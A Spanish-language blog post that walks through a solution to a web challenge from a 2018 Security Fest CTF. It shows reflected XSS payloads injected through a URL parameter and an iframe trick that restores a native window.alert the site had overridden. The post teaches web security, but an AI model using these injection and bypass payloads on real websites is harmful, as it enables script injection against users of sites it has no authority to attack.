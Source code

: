 ```yaml
---
title: 'Security Fest #CTF – Excess write up (XSS)'
author: Alevsk
type: post
date: 2018-06-15T05:37:07+00:00
url: /2018/06/security-fest-ctf-excess-write-up-xss/
categories:
  - Ethical Hacking
  - Javascript
  - IT News
  - Personal
  - Talks and Events
  - Programming
  - Snippets
  - Technology
  - Tutorials
tags:
  - capture the flag
  - ctf
  - hacking
  - Ethical Hacking
  - owasp
  - xss

---
```

[![](/images/xss.png)](http://www.alevsk.com/2018/06/security-fest-ctf-excess-write-up-xss/xss/)

Este año 2018, uno de mis principales propósitos fue tratar de participar en la mayor cantidad de [CTFs](https://www.alevsk.com/tag/ctf/) posibles, son como pequeños acertijos que mantienen mi mente ágil en cuanto a la seguridad informática y siempre aprendo algo nuevo cada vez que los juego.

Existen muchos recursos en Internet pero uno de los mejores, y que he estado usando los últimos meses, es [CTFtime](https://ctftime.org/). **CTFtime** es un portal que recopila información acerca de varios eventos **Capture The Flag** que ocurren alrededor del mundo, tanto eventos presenciales como online (puedes participar remotamente), ademas de eso es una gran fuente de aprendizaje ya que siempre puedes revisar las soluciones de los retos anteriores. Si desean ver los próximos eventos tienen una lista que pueden revisar en el siguiente [link](https://ctftime.org/event/list/upcoming)
[![](/images/Screen-Shot-2018-06-14-at-11.06.31-PM-1200x507.png)](http://www.alevsk.com/2018/06/security-fest-ctf-excess-write-up-xss/screen-shot-2018-06-14-at-11-06-31-pm/)

Por mi parte estoy listo para participar en [Viettel Mates CTF 2018](https://ctftime.org/event/629) este fin de semana 🙂 y el 23 de junio en [Google Capture The Flag 2018 (Quals)](https://ctftime.org/event/623)

Regresando a la idea principal de este articulo, el 31 de mayo participe en el [Security Fest #CTF](https://securityfest.com/), no resolví tantos retos como me hubiera gustado pero si aprendi un par de cosas nuevas que les voy a compartir a continuación.

<div class="wp-caption aligncenter" id="attachment_4541" style="width: 1066px">
[![](/images/Screen-Shot-2018-05-31-at-10.23.56-AM.png)](http://www.alevsk.com/2018/06/security-fest-ctf-excess-write-up-xss/screen-shot-2018-05-31-at-10-23-56-am/)
<p class="wp-caption-text" id="caption-attachment-4541">
    El CTF tenia tematica de [The Matrix](https://en.wikipedia.org/wiki/The_Matrix), kudos por eso!
  </p>
</div>

## Security Fest CTF Excess – Web Challenge

**Excess** fue uno de los primeros retos de la categoría web, en las instrucciones se nos daba un link a una pagina web y al entrar veíamos la siguiente pantalla.

[![](/images/Screen-Shot-2018-05-31-at-1.08.22-PM.png)](http://www.alevsk.com/2018/06/security-fest-ctf-excess-write-up-xss/screen-shot-2018-05-31-at-1-08-22-pm/)

Las instrucciones son bastante claras, tenemos que encontrar un [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) en el sitio y hacer que muestre un [alert](https://www.w3schools.com/Jsref/met_win_alert.asp), después mandar la URL con nuestro payload y reclamar la bandera.

Vemos que la pagina tiene un parámetro llamado **xss**, inspeccionamos el código fuente del sitio web y vemos lo siguiente.

[![](/images/Screen-Shot-2018-05-31-at-1.12.41-PM.png)](http://www.alevsk.com/2018/06/security-fest-ctf-excess-write-up-xss/screen-shot-2018-05-31-at-1-12-41-pm/)

Observamos que el valor del parámetro xss es utilizado directamente por unas variables en [Javascript](https://www.alevsk.com/category/javascript/) y eso es bueno para nosotros, pues podemos inyectar código directamente sin preocuparnos por crear nuestras propias [script tags](https://www.w3schools.com/tags/tag_script.asp).

Viendo el código anterior es claro que el sitio web es vulnerable y podemos mandar un payload como el siguiente para mostrar nuestro alert en **Javascript**.

En el parámetro xss enviamos:

```bash
/?xss=<strong>hello';alert(1);//</strong>
```

Y el código se va a inyectar de la siguiente forma:

```html
…  
..  
<div class="container">
<script>var x ='hello';alert(1);//; var y = \`hello';alert(1);//; var z = "hello';alert(1);//;</script>
<div class="row main">
<div class="form-header header">  
…  
..
```

Nuestro payload se inyecta 3 veces, pero no importa puesto que después del primer **//** todo el resto del código quedara comentado. En el sitio web vemos la siguiente alerta.

[![](/images/Screen-Shot-2018-05-31-at-1.12.15-PM.png)](http://www.alevsk.com/2018/06/security-fest-ctf-excess-write-up-xss/screen-shot-2018-05-31-at-1-12-15-pm/)

¿Qué?, ¿Cómo?, ¿Cuándo? xd nosotros inyectamos un alert no un [prompt](https://www.w3schools.com/jsref/met_win_prompt.asp), inspeccionando el código fuente del sitio mas a detalle y observamos que hay un script que se esta llamando antes de que inyectemos nuestro código.

```html
<script src="/static/no\_alert\_for_you.js"></script><section class="login-info">
```

Al ver su contenido nos damos cuenta de que es el responsable de nuestros dolores de cabeza.

```javascript
/*

If there is no alert,  
how can there be XSS?  
/  
/  
) (  
/( (\___/) )\  
( #) \ (")| ( #  
||\_\\_\_c\ > '\_\_||  
||*\*\\*\* ),_/ \*\*'|  
.__ |'\* \_\\_\_| |\_\__\*'|  
\_\ |' ( ~ ,)'|  
(( |' /(. ' .)\ |  
\\_|\_/ <\_ __\_\\_\_> \\_\_\___\___\___\___  
/ '-, \ / ,-' \___\___ \  
b'ger / (// \\) __/ / \  
'./\_____/

*/  
window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));
```

Este pequeño código esta sobrescribiendo la función nativa **alert** del objeto Window en nuestro contexto actual.

Es claro lo que debemos hacer, de alguna forma tenemos que devolver a Window.alert la función nativa original, existen muchas formas de resolver este reto pero mi razonamiento fue el siguiente.

Después de investigar un buen rato encontré varios artículos que describen esta técnica (override de funciones nativas) para mitigar ataques de **XSS**, sin embargo esto no soluciona el problema debido a la misma naturaleza del lenguaje **Javascript**, a continuación muestro como creando un elemento iframe, que tiene una instancia nueva y sin modificar del objeto Window, es posible ejecutar las funciones nativas originales.

```javascript
var iframe = document.createElement('iframe'); // creamos un nuevo iframe  
iframe.src = ";  
iframe.style.display = 'none';  
document.body.appendChild(iframe); // Es necesario agregarlo al documento para que su atributo contentWindow este definido  
window.alert = iframe.contentWindow.alert; // Sobrescribimos la función alert de nuestro objeto Window actual con la función nativa original  
alert(1); // Ejecutamos el alert original
```

Armamos nuestro payload y lo inyectamos en el parámetro **xss**.

```bash
/?xss=hello%27;var%20iframe=document.createElement(%27iframe%27);iframe.src=%27%27;iframe.style.display=%27none%27;document.body.appendChild(iframe);window.alert=iframe.contentWindow.alert;alert(1);//
```

Y veremos el alert original en la pantalla, enviamos la **URL** con nuestro **payload** y obtenemos la bandera de este reto.

[![](/images/Screen-Shot-2018-05-31-at-4.43.41-PM.png)](http://www.alevsk.com/2018/06/security-fest-ctf-excess-write-up-xss/screen-shot-2018-05-31-at-4-43-41-pm/) 

Happy hacking 🙂</section></div></div></div>